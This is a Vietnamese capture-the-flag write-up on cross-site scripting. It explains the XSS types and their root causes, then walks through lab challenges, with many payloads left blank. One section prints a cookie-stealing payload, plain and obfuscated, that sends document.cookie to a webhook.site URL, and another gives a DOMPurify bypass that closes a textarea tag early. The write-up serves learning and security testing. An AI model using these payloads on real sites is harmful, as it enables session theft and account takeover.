

# XSS

# Tổng quan

Cross-Site Scripting (XSS) là một trong những loại lỗ hổng bảo mật phổ biến trong các ứng dụng web, cho phép kẻ tấn công chèn mã độc vào trang web. Khi mã độc được thực thi trên trình duyệt của nạn nhân, kẻ tấn công có thể thực hiện các hành vi như đánh cắp thông tin nhạy cảm, giả mạo danh tính người dùng, hoặc điều hướng người dùng đến các trang web độc hại. 

Có ba loại XSS chính:

1. **Reflected XSS**: Mã độc được chèn qua các tham số trong URL và được phản hồi trực tiếp trong trang web mà không được lưu trữ.
2. **Stored XSS**: Mã độc được lưu trữ trên máy chủ và được hiển thị cho người dùng mỗi khi truy cập nội dung liên quan.
3. **DOM-based XSS**: Mã độc được thực thi thông qua việc thao túng DOM trên phía client mà không cần tương tác với máy chủ.

Lỗ hổng XSS không chỉ gây ảnh hưởng đến trải nghiệm người dùng mà còn có thể dẫn đến các cuộc tấn công nghiêm trọng hơn như leo thang đặc quyền, chiếm quyền điều khiển tài khoản, hoặc phá hoại toàn bộ hệ thống. Việc phát hiện và khắc phục lỗ hổng này là ưu tiên hàng đầu để đảm bảo an toàn cho ứng dụng web.

# Root Cause

1. **Không kiểm tra đầu vào**: Ứng dụng nhận dữ liệu từ người dùng mà không lọc ký tự nguy hiểm (`<`, `>`, `"`, `'`), tạo điều kiện chèn mã độc.
2. **Không mã hóa đầu ra**: Hiển thị dữ liệu người dùng lên trang mà không HTML encode, khiến trình duyệt thực thi mã thay vì hiển thị văn bản.
3. **Dùng hàm không an toàn**: Sử dụng các hàm như `eval()`, `innerHTML` mà không kiểm soát, dễ dẫn đến thực thi mã độc.

# LAB

## XSS-01: **XSS - Reflected**

Web này điều hướng các trang thông qua tham số `p` trên URL (`?p=home`, `?p=about`, etc.).

Thử 1 payload XSS đơn giản

Không hoạt động, và phát hiện có chỗ REPORT TO THE ADMINISTRATOR, đây là chỗ lấy flag

Mở F12→Elements check thì thấy

Sau khi xác định rằng payload dạng ``

Sau khi generate thì thấy 1 chuỗi base64

Decode lại để lấy flag

## XSS-03: **XSS - Stored 1**

Trang này có tính năng gửi tin nhắn và lưu lại

Thử payload vào các trường, và message chèn thẻ ``

## XSS-04: **XSS - Stored 2**

Thử `` nhưng không thành công

Check source thì thấy dữ liệu bị **HTML encode** trước khi render
**`&lt;` và `&gt;`**  tương ứng với `<` và `>`, nên đoạn `` này **không thực thi**, mà sẽ hiển thị như text thuần.

Ở đây có 1 chỗ `status: invite`, check xem có bị XSS không

Payload:  `“>`

Thành công thực thi js
Cách lấy flag như XSS-03

## XSS-05: **XSS - Stored - filter bypass**

<xss onfocus=document.location="https://webhook.site/333857da-efb7-48e7-93d7-f59a7b4a7883?data=".concat(document.cookie)
autofocus tabindex=1>

`<xss onfocus=\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074.\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e=String.fromCharCode(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,56,100,55,102,54,56,55,102,45,98,57,51,49,45,52,98,99,52,45,98,54,49,55,45,57,52,54,48,48,53,52,53,50,98,57,56,63,100,97,116,97,61).concat(\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074.\u0063\u006f\u006f\u006b\u0069\u0065) autofocus tabindex=1>`

## XSS-06: **XSS DOM Based - Introduction**

Cho thử 1 số và xem source

Thử thoát ra khỏi biến number và chèn alert vào, ở đây đã có sẵn tag ``

**DOMPurify** đã xóa thẻ ``
Kết quả vẫn như trên, **DOMPurify** lại xóa `` vì nó là mã nguy hiểm.

Lúc này cần phải tìm cách pypass DOMPurify

- DOMPurify không chặn `</textarea>` nếu nó nằm trong thuộc tính , vì trong bối cảnh đó nó chỉ là một chuỗi văn bản, không nguy hiểm trực tiếp. Nhưng khi chuỗi này được chèn vào `<textarea>`, nó có thể phá vỡ cấu trúc và thoát ra ngoài.

Payload: `<a id=" </textarea> ">test</a>`

DOMPurify thấy `<a id="...">test</a>` là HTML hợp lệ.

Kết quả: sanitized = `<a id=" </textarea> ">test</a>`
Khi chèn vào templat trình duyệt gặp </textarea>. Nó nghĩ rằng thẻ <textarea> kết thúc tại đó.

Phần `">test</a>` thoát ra ngoài và thực thi js